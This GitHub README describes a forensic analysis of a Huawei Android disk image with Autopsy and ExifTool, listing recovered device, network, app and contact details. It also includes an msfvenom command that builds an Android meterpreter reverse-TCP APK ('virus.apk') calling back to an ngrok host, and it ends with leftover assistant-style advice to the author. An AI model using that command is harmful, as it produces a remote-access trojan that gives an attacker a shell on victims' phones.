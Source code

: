 # File System Analysis with Autopsy

**Author**: Alaoui Belghiti Hanaa

This repository contains a detailed forensic analysis performed on an Android device image using the digital forensic tool **Autopsy**. The goal of the analysis is to retrieve and examine information related to the device model, MAC address, installed applications, Wi-Fi networks, contacts, search history, and a corrupted media file.

## Project Overview

This project involves:
- Retrieving key forensic details from an Android device.
- Analyzing files and metadata using **Autopsy**.
- Demonstrating how to recover a corrupted file from the device's disk image.

## Tools Used
- **Autopsy**: An open-source digital forensics platform used to conduct the analysis.
- **Kali Linux**: The primary operating system used for conducting the analysis.
- **ExifTool**: A command-line tool used to examine image metadata.
- **MSFVenom**: Used for payload creation, demonstrating a secondary use case in the analysis.

## Key Findings

1. **Device Information**:
   - Device Manufacturer: HUAWEI
   - Model: Ascend Y300

2. **MAC Address**:
   - Ethernet Interface: A4:99:47:3A:6D:C3

3. **Installed Applications**:
   - Browser.apk, Calculator.apk, Contacts.apk

4. **SSID Networks**:
   - Multiple SSID networks were found, with some passwords recovered.

5. **Contacts**:
   - Identified calls made to specific contacts, such as Ivan BBB, along with call duration.

6. **Media Recovery**:
   - A corrupted image was found and successfully restored using metadata manipulation.

## Repository Structure

```bash
File-System-Analysis-with-Autopsy/
├── README.md                  # This file
├── report.md                  # Detailed analysis and results
├── disk_image_analysis/
│   ├── corrupted_file.png      # Corrupted media file recovered from the disk image
│   └── other_artifacts/        # Any additional files or artifacts from the disk image
├── images/                    # Screenshots of the analysis process
│   ├── device_info.png         # Image showing device info found
│   ├── mac_address.png         # MAC address screenshot
│   ├── apk_search.png          # Screenshot of APK files found
│   └── ssid_network.png        # Screenshot showing SSID networks
├── autopsy_script.sh           # Any automation script used (optional)
└── LICENSE                    # Optional license for open sharing
```

## How to Run the Analysis

1. **Install Autopsy**:
   - Follow the installation instructions for Autopsy [here](https://www.autopsy.com/download/).
   
2. **Load Disk Image**:
   - Import the provided disk image into Autopsy for analysis.
   
3. **Analyze Key Areas**:
   - Use the "Keyword Search" functionality to look for information such as "SSID", "MAC", ".apk", and contact names.
   - Use **ExifTool** to recover metadata from images.

4. **File Recovery**:
   - To recover the corrupted file, locate the specific image in the `DCIM` folder and follow the restoration steps provided in `report.md`.

## Corrupted File Details

The corrupted media file found in the device’s `DCIM` folder has been included in the `disk_image_analysis/` folder for reference. The steps to recover the file and view its original content are documented in `report.md`.

## Usage of MSFVenom

For educational purposes, I have included a command used to generate an Android payload with **MSFVenom**, demonstrating the steps to create a malicious APK for further analysis:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=15155 -o /home/joxavy/virus.apk
```

---

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contact

For any questions or further information, feel free to contact me via GitHub or email.

---

### Additional Tips:

- You might also want to include a **Challenges Faced** section where you discuss any problems encountered, like working with corrupted files or analyzing specific data.
- Make sure your `README.md` is easy to follow so that someone unfamiliar with your project can understand it quickly. 

This will give your repository a professional touch and clearly explain the purpose of the project and its results. Let me know if you'd like to adjust anything!
